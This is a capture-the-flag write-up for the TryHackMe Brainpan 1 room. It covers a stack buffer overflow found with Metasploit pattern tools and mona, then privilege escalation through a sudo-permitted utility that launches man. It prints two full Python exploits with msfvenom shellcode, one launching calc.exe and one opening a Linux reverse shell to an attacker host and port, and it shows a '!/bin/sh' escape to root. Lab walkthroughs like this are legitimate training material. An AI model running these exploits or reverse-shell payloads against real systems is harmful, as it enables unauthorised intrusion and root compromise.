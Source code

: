 # Brainpan 1

https://tryhackme.com/room/brainpan

A simple buffer overflow room. Has a couple of quirks: there are no flags, so this is an honour system, and the buffer overflow binary is provided as a windows binary, despite the machine that you need to exploit being Linux. Though this doesnt make any material difference (well, assuming you have a Windows machine handy).

A scan revealed ports `9999` and `10000`. On `9999`, interactable via `nc`, was a simple terminal-based password interface, presumably the point of overflow to exploit. On `10000` was a website, and nikto quickly revealed a /bin directory that contained `brainpan.exe`.

Bringing this to my windows host and firing it up with Immunity Debugger, I was able to make it crash with a long string generated by `msf-pattern_create -l 800`. Then I used `msf-pattern_offset -l 800 -q <EIP>` to get the offset of **524**, which I confirmed via repeating the operating but checking using immunity/mona with `!mona findmsp -distance 800`.

> At this point, you can check for bad characters using mona byte arrays, but this was a rabbit hole - it seemed to just specify the next four bytes over and over, a repeating pattern that usually (in my limited experience) indicates that only `\x00` is bad.

I used `!mona jmp -r esp -cpb "\x00"` to find a jump esp instruction, and created a windows shellcode sample that would pop calc.exe via: `msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f py`.

The final exploit with this was:

```python
import socket

ip = "192.168.1.17"
port = 9999

offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16

buf =  b""
buf += b"\xda\xd7\xd9\x74\x24\xf4\xb8\x3e\xf5\x45\x77\x5b\x29"
buf += b"\xc9\xb1\x31\x83\xeb\xfc\x31\x43\x14\x03\x43\x2a\x17"
buf += b"\xb0\x8b\xba\x55\x3b\x74\x3a\x3a\xb5\x91\x0b\x7a\xa1"
buf += b"\xd2\x3b\x4a\xa1\xb7\xb7\x21\xe7\x23\x4c\x47\x20\x43"
buf += b"\xe5\xe2\x16\x6a\xf6\x5f\x6a\xed\x74\xa2\xbf\xcd\x45"
buf += b"\x6d\xb2\x0c\x82\x90\x3f\x5c\x5b\xde\x92\x71\xe8\xaa"
buf += b"\x2e\xf9\xa2\x3b\x37\x1e\x72\x3d\x16\xb1\x09\x64\xb8"
buf += b"\x33\xde\x1c\xf1\x2b\x03\x18\x4b\xc7\xf7\xd6\x4a\x01"
buf += b"\xc6\x17\xe0\x6c\xe7\xe5\xf8\xa9\xcf\x15\x8f\xc3\x2c"
buf += b"\xab\x88\x17\x4f\x77\x1c\x8c\xf7\xfc\x86\x68\x06\xd0"
buf += b"\x51\xfa\x04\x9d\x16\xa4\x08\x20\xfa\xde\x34\xa9\xfd"
buf += b"\x30\xbd\xe9\xd9\x94\xe6\xaa\x40\x8c\x42\x1c\x7c\xce"
buf += b"\x2d\xc1\xd8\x84\xc3\x16\x51\xc7\x89\xe9\xe7\x7d\xff"
buf += b"\xea\xf7\x7d\xaf\x82\xc6\xf6\x20\xd4\xd6\xdc\x05\x2a"
buf += b"\x9d\x7d\x2f\xa3\x78\x14\x72\xae\x7a\xc2\xb0\xd7\xf8"
buf += b"\xe7\x48\x2c\xe0\x8d\x4d\x68\xa6\x7e\x3f\xe1\x43\x81"
buf += b"\xec\x02\x46\xe2\x73\x91\x0a\xcb\x16\x11\xa8\x13"

buffer = overflow + retn + padding + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

This worked and popped calc.

To exploit on the linux machine, I used the following to create a reverse shell payload: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.196.76 LPORT=4567 EXITFUNC=thread -b "\x00" -f py`, then exploited via (no change except IP address and shell code):

```python
import socket

ip = "10.10.77.79"
port = 9999

offset = 524
overflow = "A" * offset
retn = "\xf3\x12\x17\x31"
padding = "\x90" * 16

buf =  b""
buf += b"\xda\xd8\xba\xb4\xb7\xc5\xd1\xd9\x74\x24\xf4\x58\x31"
buf += b"\xc9\xb1\x12\x83\xe8\xfc\x31\x50\x13\x03\xe4\xa4\x27"
buf += b"\x24\x35\x10\x50\x24\x66\xe5\xcc\xc1\x8a\x60\x13\xa5"
buf += b"\xec\xbf\x54\x55\xa9\x8f\x6a\x97\xc9\xb9\xed\xde\xa1"
buf += b"\x33\x04\xe5\x7d\x2c\x1a\xe5\x6c\x7b\x93\x04\x3e\xe5"
buf += b"\xf4\x97\x6d\x59\xf7\x9e\x70\x50\x78\xf2\x1a\x05\x56"
buf += b"\x80\xb2\xb1\x87\x49\x20\x2b\x51\x76\xf6\xf8\xe8\x98"
buf += b"\x46\xf5\x27\xda"

buffer = overflow + retn + padding + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Which got me a reverse shell :)

On the machine, `sudo -l` revealed `(root) NOPASSWD: /home/anansi/bin/anansi_util`. When I ran this, it said:

```
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The first would run ifconfig, but a trivial path exploit didn't work. The other two options failed with terminal errors, that were not fixed until I ran: `export TERM=xterm`.

The second option appeared to run `top`, but also didn't seem exploitable. The final open ran `man`, and I was able to escape this trivially via `!/bin/sh`, which got me a root shell :)
